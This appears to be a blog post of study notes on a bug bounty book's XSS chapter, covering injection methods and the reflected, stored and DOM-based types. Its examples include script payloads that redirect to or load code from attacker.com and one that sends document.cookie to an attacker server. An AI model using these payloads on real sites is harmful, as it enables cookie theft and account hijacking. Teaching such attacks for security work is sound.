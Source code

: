 ```yaml
---
layout: post
title: CROSS-SITE SCRIPTING (XSS)
date: 2023-07-17
categories: [cybersecurity, web-security,Bug_Bounty_Bootcamp_The_Guide_to_Finding_and_Reporting_Web_Vulnerabilities,XSS ]
---
```



# Chapter 6 : CROSS-SITE SCRIPTING

An XSS vulnerability occurs when attackers can execute custom scripts on a victim's browser. If an application fails to distinguish between user input and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by other users. The victim's browser will then execute the malicious script, which might steal cookies, leak personal information, change site contents, or redirect the user to a malicious site. These malicious scripts are often JavaScript code but can also be HTML, Flash, VBScript, or anything written in a language that the browser can execute.

# XSS Injection Methods

There are different ways that attackers can inject malicious code into web pages, such as:

1. Inline script injection: The attacker inserts a `<script>` tag with the code directly into the web page. For example: 
```html
<script>location = "http://attacker.com";</script>
```

2. External script source injection: The attacker uses the `src` attribute of the `<script>` tag to load the code from an external source. For example: `<script src="http://attacker.com/xss.js"></script>`.

3. Malicious URL injection: The attacker crafts a URL that contains the code as a parameter and tricks the user into visiting it. For example: `https://subscribe.example.com?email=<script>location="http://attacker.com";</script>`.

4. Stealing user cookies: The attacker uses the `document.cookie` property to access and send the user’s cookies to a malicious server. For example: `<script>image = new Image(); image.src='http://attacker_server_ip/?c='+document.cookie;</script>`.

# Types of XSS

There are three main types of XSS attacks:

- Reflected XSS: The attacker’s code is sent as part of the user’s request and reflected back by the server in the response. The user has to click on a malicious link or visit a malicious site to trigger the attack.
- Stored XSS: The attacker’s code is stored on the server, such as in a database, a comment field, or a profile. The user views the affected web page and executes the code without any interaction.
- DOM-based XSS: The attacker’s code is executed in the user’s browser by manipulating the DOM (Document Object Model) of the web page. The code never leaves the browser and does not involve the server.
